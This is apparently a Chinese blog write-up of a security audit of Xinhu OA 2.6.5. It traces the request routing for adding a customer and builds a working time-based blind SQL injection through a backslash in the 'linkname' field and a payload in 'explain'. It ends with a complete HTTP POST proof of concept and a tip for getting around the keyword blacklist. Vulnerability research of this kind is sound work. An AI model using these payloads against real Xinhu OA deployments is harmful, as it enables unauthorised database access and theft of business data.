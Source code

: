 ```yaml
---
title: 信呼oa审计
date: 2024-12-11 13:59:42
tags:
---
```


# 0.源码下载

https://github.com/rainrocka/xinhu.git

版本：信呼OA的2.6.5版本

# 1.客户管理处存在sql注入

新增客户

![image-20241211135947241](信呼oa审计/image-20241211135947241.png)

## 抓包查看路由

![image-20241211141944099](信呼oa审计/image-20241211141944099.png)

## 源码定位

index.php#34 引用了View.php

![image-20241211142000159](信呼oa审计/image-20241211142000159.png)

View.php中对参数解析，再引用

![image-20241211142052217](信呼oa审计/image-20241211142052217.png)

```
POST /index.php?a=save&m=mode_customer|input&d=flow&ajaxbool=true&rnd=792761
```

变为

```
$m = mode_customer
$_m=input
$a=save
$actname = saveAjax
```

![image-20241211142028415](信呼oa审计/image-20241211142028415.png)

如上图，最终调用 mode_customerClassAction.saveAjax

由于mode_customerClassAction没有saveAjax，因此最终调用inputAction.saveAjax

![image-20241211142519559](信呼oa审计/image-20241211142519559.png)

![image-20241211142601009](信呼oa审计/image-20241211142601009.png)

在241进行数据库保存，为了方便调试，将$uaarr输出进行参数查看

![image-20241211143500206](信呼oa审计/image-20241211143500206.png)

## 动态调试

在新增客户中，随便找个参数，通过添加 \ 进行绕过

```
linkname=a3\
```

payload为

```
id=0&sxuanfileid=&name=1234&laiyuan=%E7%BD%91%E4%B8%8A%E5%BC%80%E6%8B%93&unitname=&type=%E4%BA%92%E8%81%94%E7%BD%91&linkname=a3\&email=&tel=22&mobile=33&sheng=&shi=44&address=&addresslatlng=&shibieid=&openbank=&cardid=&routeline=&explain=&fileid=&status=1&isstat=0&isgys=0&sysmodeid=7&sysmodenum=customer
```

此时返回包出现报错

![image-20241211143612285](信呼oa审计/image-20241211143612285.png)

进入日志查看具体的sql语法

![image-20241211143635809](信呼oa审计/image-20241211143635809.png)

sql语法使用单引号闭合并且没有对 \ 进行处理导致引号错误

改一下payload

```
linkname=a3\
explain=1%20--%20
```

报错如下图

![image-20241211144333907](信呼oa审计/image-20241211144333907.png)

将语句复制到sql查询中查看，此时引号闭合且 1 成功逃逸

![image-20241211144349374](信呼oa审计/image-20241211144349374.png)

将explain中的1删掉

![image-20241211144439955](信呼oa审计/image-20241211144439955.png)

成功添加用户

将1改成时间盲注的语句

```
linkname=a3\
explain=;(select(if(1=1,(benchmark(10000000,SHA1('Hello'))),2)=1))%20--%20
```

还是报错了

![image-20241211145715648](信呼oa审计/image-20241211145715648.png)

时间盲注语句在sql查询中能正常执行，但在这里不行。说明可能是分号的问题，将分号去掉改成逗号

```
linkname=a3\
explain=,`explain`=(select(if(1=1,(benchmark(10000000,SHA1(111))),2)=1))%20--%20
```

![image-20241211145739182](信呼oa审计/image-20241211145739182.png)

成功盲注

## POC

```
POST /index.php?a=save&m=mode_customer|input&d=flow&ajaxbool=true&rnd=131480 HTTP/1.1
Host: 127.0.0.1
Content-Length: 368
sec-ch-ua: "Chromium";v="119", "Not?A_Brand";v="24"
Accept: */*
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.123 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/?a=lu&m=input&d=flow&num=customer&mid=0&callback=opegs1733901100171_7188
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: deviceid=1733896888157; xinhu_ca_adminuser=admin; xinhu_ca_rempass=1; PHPSESSID=0gjig9u51nhbp8m7cijt12e520; xinhu_mo_adminid=dv0cj0xxb0cx0xjx0dm0mu0xxd0vj0xll0mj0xju0md0mx0mw0cd012; xinhu_ca_adminpass=lw0lx0li0hhj0wx0lx0ei0hio0xx0hoj0xx0el06
Connection: close

id=0&sxuanfileid=&name=11&laiyuan=%E7%94%B5%E8%AF%9D%E5%BC%80%E6%8B%93&unitname=&type=%E4%BA%92%E8%81%94%E7%BD%91&linkname=a3\&email=&tel=&mobile=&sheng=&shi=&address=&addresslatlng=&shibieid=&openbank=&cardid=&routeline=&explain=,`explain`=(select(if(1=1,(benchmark(10000000,SHA1(111))),2)=1))%20--%20&fileid=&status=1&isstat=0&isgys=0&sysmodeid=7&sysmodenum=customer
```



# 补充

测试过程中发现黑名单，可以直接去源码中搜被过滤的字符串从而找到黑名单;加逗号是因为php数组以逗号隔开元素

```
select被过滤 -> select,
```

![image-20241211150215134](信呼oa审计/image-20241211150215134.png)

![image-20241211150258765](信呼oa审计/image-20241211150258765.png)

